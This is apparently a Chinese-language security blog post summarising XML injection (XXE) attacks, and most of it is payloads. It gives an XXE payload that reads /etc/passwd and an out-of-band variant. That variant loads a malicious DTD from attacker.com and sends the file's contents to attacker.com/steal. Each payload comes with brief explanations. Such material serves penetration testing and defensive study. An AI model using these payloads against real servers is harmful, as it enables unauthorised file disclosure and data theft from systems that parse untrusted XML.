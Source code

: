 ```yaml
---
layout: mypost
title: XML注入总结
categories: [Web]
extMath: true
---
```


# XML注入总结

## 说明

就是服务器配置不当导致解析恶意的XML并执行了恶意操作

## 分类说明

### XXE读文件

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <name>&xxe;</name>
</root>
```

- **解释**：
    - `<!DOCTYPE foo [...]>`：定义文档类型定义 (DTD)。
    - `<!ENTITY xxe SYSTEM "file:///etc/passwd">`：定义一个名为 `xxe` 的**外部实体**，其内容来自 `file://` 协议指定的路径（此处为 `/etc/passwd`）。
    - `&xxe;`：在 XML 中引用该实体，处理器会将其替换为文件内容，并在响应中返回。

### **带外数据外泄 (OOB-XXE)**

当目标应用程序没有直接返回文件内容时，可以通过外带通道（Out-of-Band）将数据发送到攻击者控制的服务器。

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<root>&exfil;</root>
```

**evil.dtd (存放在 [http://attacker.com/](http://attacker.com/)):**

```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % param "<!ENTITY exfil SYSTEM 'http://attacker.com/steal?data=%data;'>">
%param;
```
